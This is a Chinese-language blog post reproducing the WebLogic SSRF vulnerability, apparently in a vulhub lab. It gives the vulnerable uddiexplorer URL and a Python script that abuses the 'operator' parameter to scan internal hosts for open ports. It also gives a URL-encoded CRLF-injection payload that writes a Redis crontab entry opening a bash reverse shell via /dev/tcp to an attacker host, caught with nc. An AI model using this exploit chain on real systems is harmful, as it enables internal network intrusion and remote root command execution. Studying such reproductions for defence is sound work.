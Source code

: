 ```yaml
---
title: Weblogic SSRF漏洞
date: 2020-07-08 20:56:39
categories: 漏洞复现
tags: Weblogic
---
```


#### 背景

Weblogic存在一个SSRF漏洞，可以探测内网服务，也可攻击内网设备

<!--more-->

#### 复现过程

漏洞存在于以下url的**operator**参数

```
http://ip:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001
```

访问存在的7001端口，会返回404 error code

![](http://qn.laohuan.xin/2020-07-03_16-38-14.png)

访问不存在的端口会返回not connect

![](http://qn.laohuan.xin/2020-07-03_16-36-35.png)

根据不同端口返回的状态不同，可以来探测内网端口的开放情况

端口探测脚本

```
import thread
import time
import re
import requests


def ite_ip(ip):
    for i in range(1, 256):
        final_ip = '{ip}.{i}'.format(ip=ip, i=i)
        print final_ip
        thread.start_new_thread(scan, (final_ip,))
        time.sleep(3)

def scan(final_ip):
    ports = ('21', '22', '23', '53', '80', '135', '139', '443', '445', '1080', '1433', '1521', '3306', 
'3389', '4899', '8080', '7001', '8000','6389','6379')
    for port in ports:
        vul_url = 'http://ip:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&tx
tSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://%
s:%s&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Se
arch' % (final_ip,port)
        try:
            #print vul_url
            r = requests.get(vul_url, timeout=15, verify=False)
            result1 = re.findall('weblogic.uddi.client.structures.exception.XML_SoapException',r.conten
t)
            result2 = re.findall('but could not connect', r.content)
            result3 = re.findall('No route to host', r.content)  
            if len(result1) != 0 and len(result2) == 0 and len(result3) == 0:
                print '[!]'+final_ip + ':' + port
        except Exception, e:
            pass


if __name__ == '__main__':
    ip = "192.168.16"  
    if ip:
        print ip
        ite_ip(ip)
    else:
        print "no ip"
```

可发现内网开放6379端口，存在redis数据库

![](http://qn.laohuan.xin/2020-07-03_17-03-23.png)

写入redis计划任务反弹shell，在**operator**参数添加pyalaod

```
http://ip:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://192.168.16.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F反弹ip%2F反弹端口%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

将以上url解码实际为

![](http://qn.laohuan.xin/2020-07-03_20-38-48.png)

NC监听成功反弹shell

![](http://qn.laohuan.xin/2020-07-03_20-42-47.png)

#### 参考链接

<http://github.com/vulhub/vulhub/tree/master/weblogic/ssrf/>

<http://www.jianshu.com/p/42a3bb2b2c2c/>